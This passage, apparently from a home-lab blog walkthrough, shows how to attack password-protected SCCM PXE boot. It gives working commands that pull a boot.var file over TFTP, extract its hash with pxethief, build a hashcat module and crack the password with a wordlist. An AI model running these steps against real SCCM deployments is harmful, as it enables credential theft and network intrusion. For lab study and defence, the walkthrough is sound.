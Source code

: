 ![admin_distribution_point.png](/assets/blog/SCCM/admin_distribution_point.png)

- In the PXE tab select require a password and enter a password for pxe (here i enter the password : "hello")

![set_pxe_password.png](/assets/blog/SCCM/set_pxe_password.png)

- Select apply than ok
- Wait few minutes for the deployment propagation

- Now if we retry from windows we get an error as a password is detected :

```powershell
py.exe pxethief.py 2 192.168.33.11
```

![pxe_thief_with_password.png](/assets/blog/SCCM/pxe_thief_with_password.png)

- Let's download the file and print the hash with pxethief

```powershell
tftp -i 192.168.33.11 GET "\SMSTemp\2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var" "2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var"
py.exe pxethief.py 5 '.\2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var'
```

![pxe_gethash.png](/assets/blog/SCCM/pxe_gethash.png)

- and crack it with Christopher Panayi's hashcat module [https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module)

- on exegol with hashcat 6.2.5

```bash
cd /workspace
git clone https://github.com/hashcat/hashcat.git
git clone https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module
cp configmgr-cryptderivekey-hashcat-module/module_code/module_19850.c hashcat/src/modules/
cp configmgr-cryptderivekey-hashcat-module/opencl_code/m19850* hashcat/OpenCL/
cd hashcat
# change to 6.2.5
git checkout -b v6.2.5 tags/v6.2.5
make
```

- and crack the hash

```bash
cd /workspace
hashcat/hashcat -m 19850 --force -a 0 /workspace/pxe_hash /usr/share/wordlists/rockyou.txt
```

![pxe_hash_cracked.png](/assets/blog/SCCM/pxe_hash_cracked.png)

- we successfully retrieve the password : hello
